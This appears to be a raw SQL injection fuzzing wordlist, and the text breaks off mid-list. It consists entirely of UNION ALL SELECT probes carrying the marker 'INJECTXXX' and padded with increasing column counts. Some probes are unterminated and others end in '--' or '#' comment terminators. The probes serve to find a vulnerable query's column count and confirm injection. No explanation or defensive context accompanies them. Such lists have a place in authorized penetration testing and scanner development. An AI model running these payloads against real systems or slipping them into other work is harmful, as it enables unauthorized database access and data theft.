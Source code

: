 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30  UNION ALL SELECT 'INJ'||'ECT'||'XXX'--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29--   UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30--   UNION ALL SELECT 'INJ'||'ECT'||'XXX'#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19#  UNION ALL SELECT 'INJ'||'ECT'||'XXX',2,3,4,5,6,7,8,9,10,11,12,13,14,15
